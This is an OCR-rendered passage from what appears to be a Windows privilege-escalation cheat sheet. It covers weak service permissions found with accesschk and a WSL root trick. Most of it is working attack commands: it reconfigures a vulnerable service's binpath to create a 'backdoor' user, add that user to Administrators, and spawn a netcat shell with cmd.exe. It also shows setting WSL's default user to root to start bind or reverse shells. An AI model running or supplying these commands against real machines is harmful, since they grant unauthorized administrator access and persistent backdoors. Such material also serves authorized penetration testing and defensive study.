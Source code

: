 ```
sc config upnphost depend=""
```

**Using accesschk from Sysinternals or accesschk-XP.exe - github.com/phackt**

### EoP - Windows Subsystem for Linux (WSL)

**Te c h n i q u e b o r rowe d f ro m Warlockobama's tweet**

**With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell**

**on any port (no elevation needed). Don't know the root password? No problem just set the**

**default user to root W/ .exe --default-user root. Now start your bind shell or reverse.**

```
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

```
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
SERVICE_ALL_ACCESS
RW upnphost
SERVICE_ALL_ACCESS
```

```
$ accesschk.exe -ucqv upnphost
upnphost
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS
```

```
$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```

**Binary bash.exe can also be found in C:\Windows\WinSxS\amd64\_microsoft-windows-**

lxssbash\_\[...]\bash.exe
